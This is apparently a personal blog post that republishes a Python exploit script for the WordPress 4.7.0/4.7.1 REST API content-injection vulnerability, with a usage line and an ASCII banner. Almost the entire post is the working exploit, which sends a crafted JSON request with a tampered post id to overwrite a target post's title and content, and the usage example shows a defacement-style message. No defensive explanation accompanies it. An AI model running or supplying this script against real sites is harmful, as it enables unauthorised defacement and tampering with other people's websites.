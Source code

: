 ```yaml
---
layout: post
title: Wordpress Content Injection Exploit ver: 4.7.0
date: 2022-02-16 15:47
author: theguler
comments: true
categories: [Hacking - Security]
---
```

<!-- wp:image {"id":1816,"width":553,"height":311,"sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large is-resized"><img src="https://theguler.wordpress.com/wp-content/uploads/2022/02/wordpress.jpg?w=778" alt="" class="wp-image-1816" width="553" height="311" /></figure>
<!-- /wp:image -->

<!-- wp:preformatted -->
<pre id="block-212c4770-1090-40f9-a3aa-882bb19bd474" class="wp-block-preformatted">Usage: wp-content-injection.py --url http://127.0.0.1/wordpress/index.php/wp-json/wp/v2/posts/6 --title "test_icindir" --content "dikkat! lütfen pacth gecininiz...</pre>
<!-- /wp:preformatted -->

<!-- wp:preformatted -->
<pre id="block-212c4770-1090-40f9-a3aa-882bb19bd474" class="wp-block-preformatted"># wp-content-injection.py
# Exploit Title: WP Content Injection Exploit
# Date: 02-02-2017
# Exploit Author: Rony Das
# Vendor Homepage: https://wordpress.org/
# Software Link: https://wordpress.org/download/release-archive/
# Version: Wordpress 4.7.0 &amp; 4.7.1
# Tested on: BackBox - Ubuntu Based
# Founded by: https://blog.sucuri.net/2017/02/content-injection-vulnerability-wordpress-rest-api.html
import json
import requests
import optparse
import sys
from urlparse import urlparse
import time
script = sys.argv[0]
def getPid(url):
    l = url.split('/')
    getpid = l[l.index('posts') + 1]
    return getpid

def getDomain(url):
    parsed_uri = urlparse(url)
    domain = '{uri.scheme}://{uri.netloc}/'.format(uri=parsed_uri)
    return domain

def banner():
    return """
********************************************************
* _    _______      ______ _____ _____ _____    _____  *
*| |  | | ___ \     | ___ \  _  /  ___|_   _|  |_   _| *
*| |  | | |_/ /_____| |_/ / | | \ `--.  | |______| |   *
*| |/\| |  __/______|  __/| | | |`--. \ | |______| |   *
*\  /\  / |         | |   \ \_/ /\__/ / | |     _| |_  *
* \/  \/\_|         \_|    \___/\____/  \_/     \___/  *
*                                                      *
********************************************************
Greetz:~ Dipendra,Kirit dada &lt;3, Abk Khan, Mukarram Khalid, Ahmed Raza
"""

def main():
    parser = optparse.OptionParser("Usage: "+script+" -u &lt;URL&gt; --title \"&lt;PAGE_TITLE&gt;\" --content \"&lt;PAGE_CONTENT&gt;\"")
    parser.add_option("-u", "--url", dest="URL", type="string", help="Specify the URL")
    parser.add_option("-t", "--title", dest="TITLE", type="string", help="Specify the Page Title")
    parser.add_option("-c", "--content", dest="CONTENT", type="string", help="Specify the Page Content")
    (options, args) = parser.parse_args()
    url     = options.URL
    title   = options.TITLE
    content = options.CONTENT
    data = {"id" : ""+str(getPid(url))+"textappendshere", "title" : ""+title+"", "content" : ""+content+""}
    headers = {'Content-Type': "application/json; charset=xxxe", 'Accept': "application/json"}
    res = requests.post(url, data=json.dumps(data), headers=headers)
    resp = res.status_code
    print banner()
    print "Status Code: "+str(resp)
    print time.sleep(2)
    if str(resp) == "200":
        print "Yay!"
        print "[+] Exploiting .. "
        print "[+] check the post.."
        print "[+] "+getDomain(url)+"?p="+getPid(url)
    else:
        print "May be not vulnerable?"
if __name__ == '__main__':
    try:
        main()
    except KeyboardInterrupt:
        print "[-] User stooped the script."
        sys.exit(0)
    except:
        pass</pre>
<!-- /wp:preformatted -->

